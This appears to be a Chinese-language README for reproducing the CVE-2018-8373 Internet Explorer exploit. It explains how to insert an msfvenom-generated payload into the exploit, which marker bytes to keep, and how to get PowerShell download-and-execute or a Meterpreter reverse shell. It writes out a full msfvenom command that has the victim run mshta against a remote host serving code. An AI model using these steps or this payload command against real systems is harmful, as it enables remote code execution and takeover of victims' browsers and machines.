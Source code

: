 #CVE-2018-8373 REC


`怎样修改Exploit`
    
    BeforeIE9是可以对IE9之前的版本进行利用，但是在有些X64位机器上不行
    
    BeforeIE11是比较好用的，可以针对IE11之前的版本进行利用
    
    IE11 修改与CVE-2018-8174修改差不多  在165行左右 填充msf生成的payload即可

`怎样使用`
    
    IE9可以直接执行命令 调用Powershell下载执行即可
    
    IE11可以使用msf的powershell meterpreter模块反弹 也可以将下载命令使用msf编码执行

`复现注意事项`
    
    我的知乎专栏 MSF文章
    https://zhuanlan.zhihu.com/p/40091321
    生成 执行命令的payload 这个位置生成的payload是用来填充的
    msfvenom -p windows/exec cmd='mshta http://192.168.0.100:6666/hFmjv' -f js_le exitfunc=thread 
    
    填充payload的时候要注意，与8174有一点不同
    
    就是不是全填充而是在 原来的地方要修改  具体看修改  
    
    要保留如下字符串 然后在这个字符串之前填充  不然是无法复现成功的
   
    %u4100%u0065%u0000%u0000%u0000%u0000%u0000%ucc00%ucccc%ucccc%ucccc%ucccc
    
    我从官网即时下载的IE11也存在问题，所以危害还是很大的。。
    
    
    
##最后感谢看雪大佬提供的EXP。

